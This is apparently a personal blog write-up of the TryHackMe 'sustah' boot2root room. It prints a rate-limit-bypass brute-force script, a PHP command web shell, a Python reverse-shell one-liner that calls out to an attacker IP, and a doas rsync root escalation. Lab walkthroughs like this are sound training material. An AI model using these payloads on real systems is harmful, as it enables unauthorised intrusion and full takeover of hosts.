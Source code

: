 ```yaml
---
layout: post
author: Razor
title: Tryhackme sustah
categories: [Tryhackme]
tags: [medium-box, boot2root, privilage escalation, web exploitation, cve]
image: assets/thm_sustah/bg.png
toc: true
---
```


## Introduction

This is partical room from tryhackme entitled "sustah" from Tryhackme . Difficulty of This box is Medium and in this box you will learn all about exploiting CMS , Missconfiguration, Bruteforcing, Privilage escalation. Okay no let's Pwn this box :p.

Room Link [here](https://tryhackme.com/room/sustah)

## Scanning 

### Nmap 

First we must scanning the ip using nmap : `nmap 10.10.195.141 -sC -sV`
```
Nmap scan report for 10.10.195.141
Host is up (0.34s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bd:a4:a3:ae:66:68:1d:74:e1:c0:6a:eb:2b:9b:f3:33 (RSA)
|   256 9a:db:73:79:0c:72:be:05:1a:86:73:dc:ac:6d:7a:ef (ECDSA)
|_  256 64:8d:5c:79:de:e1:f7:3f:08:7c:eb:b7:b3:24:64:1f (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Susta
8085/tcp open  http    Gunicorn 20.0.4
|_http-server-header: gunicorn/20.0.4
|_http-title: Spinner
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Mar  4 17:20:51 2021 -- 1 IP address (1 host up) scanned in 24.76 seconds

```
As you can see the box have 3 port open like ssh, http and another cms. Now lets take a look at port 80: 
![img](/assets/thm_sustah/bg_1.png)

Nothing interesting here let's jump to port 8085.

![img](/assets/thm_sustah/bg_2.png)

There is have some word `Feeling lucky? Guess the right number. You have a 0.004% chance of winning.` which mean we can bruteforece number for the lucky. 

![img](/assets/thm_sustah/bg_3.png)

I have trying to bruteforce the number but there is have rate limits and i'm going to research then found [this](https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass). We can bypass it using header X-Remote-Addr: 127.0.0.1 and it worked. 

My code : 
```python
#!/usr/bin/python3
import requests
import sys
import re
url = "http://10.10.195.141:8085/"

reqse = requests.session()
for number in range(10000,99999):
        head = {"X-Remote-Addr" : "127.0.0.1"}
        data = {"number" : number}
        output = reqse.post(url, headers = head, data = data)
        if "rate limit exceeded" in output.text:
                print("Limit Exceeded :D")
        elif "Oh no! How unlucky. Spin the wheel and try again." in output.text:
                print("try Number : ",number)
                pass
        else:
                print(f"[+]The number is ",number)
                break
```
and here the result : 
![img](/assets/thm_sustah/bg_4.png)

Now we found the number, let's put this.

![img](/assets/thm_sustah/bg_5.png)

Then we found path for getting cms site. now let's go to `http://10.10.249.153/Yo---------th/`

![img](/assets/thm_sustah/bg_6.png)

After looking around i'm found this which mean we can login as admin with default credentials.

![img](/assets/thm_sustah/bg_7.png)

Now lets going to file and create net file some revershell `<?php echo passthru($_GET['cmd']) ?> ` and upload it.

![img](/assets/thm_sustah/bg_8.png)

The file will be saved in `/img/shellrazor.php`.

![img](/assets/thm_sustah/bg_10.png)

Now lets check the command like this : `/shellrazor.php?cmd=id`
here the result

![img](/assets/thm_sustah/bg_12.png)

## Getting shell

### Web shell

Its works now let create some payload to getting revershell, here my payload to getting shell
```
export RHOST="10.2.47.251";export RPORT=4444;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```
![img](/assets/thm_sustah/bg_13.png)

Now we have shell. After looking some hint in thm there is have some backup file. After looking arround i found backup file in `/var/backups` and contain password of user `.bak.passwd`

![img](/assets/thm_sustah/bg_14.png)

## Getting user

Now we just login with user kiran password : 

![img](/assets/thm_sustah/bg_16.png)

As you can see it's work , Then we must getting root.

## Privilage Escalation

In this case im using linpeas to get privilage escalation and i found this: 
![img](/assets/thm_sustah/bg_17.png)

Now let's going to gtfobins [here](https://gtfobins.github.io/gtfobins/rsync/#sudo) about rsync and here my command : `doas rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null`
![img](/assets/thm_sustah/bg_18.png)

And Boom!! we get the root XD

So thats it my writeup and there is so simple writeup you can follow if you want and see you next time :D


Happyhacking :D 